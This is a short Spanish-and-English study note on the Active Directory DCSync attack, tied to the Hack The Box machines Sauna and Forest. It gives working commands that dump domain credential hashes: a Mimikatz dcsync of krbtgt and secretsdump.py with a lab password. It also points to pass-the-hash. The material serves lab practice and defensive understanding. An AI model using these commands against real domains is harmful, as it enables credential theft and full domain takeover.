 
## DESCRIPTION

The **DCSync** permission implies having these permissions over the domain itself: **DS-Replication-Get-Changes**, **Replicating Directory Changes All** and **Replicating Directory Changes In Filtered Set**.

**Important Notes about DCSync:**

-   The **DCSync attack simulates the behavior of a Domain Controller and asks other Domain Controllers to replicate information** using the Directory Replication Service Remote Protocol (MS-DRSR). Because MS-DRSR is a valid and necessary function of Active Directory, it cannot be turned off or disabled.
-   By default only **Domain Admins, Enterprise Admins, Administrators, and Domain Controllers** groups have the required privileges.
-   If any account passwords are stored with reversible encryption, an option is available in Mimikatz to return the password in clear text

Bloodhound lo detecta:

![[Pasted image 20230311184232.png]]

**!!NOTA IMPORTANTE!!** 
* EXISTE UNA ESCALADA DE PRIVILEGIOS MUY IMPORTANTE CON [[Join Exchange Windows Permissions Group]] MIRAR AQUI:  https://0xdf.gitlab.io/2020/03/21/htb-forest.html#privesc-to-administrator

#### Mas información
* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync
* https://0xdf.gitlab.io/2020/07/18/htb-sauna.html

## EXPLOITATION

### OPTION 1: Mimikatz

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### OPTION 2: Desde la KALI

1. Utilizamos secretdumps

```

# Ejemplo de uso, tambien le puedes meter el dominio
secretsdump.py -just-dc svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175 -outputfile dcsync_hashes
```
![[Pasted image 20230311184113.png]]

2. Puedes usar directamente el hash haciendo PTH

![[Pasted image 20230311184135.png]]

## MACHINES

* Hack The Box: Sauna, Forest

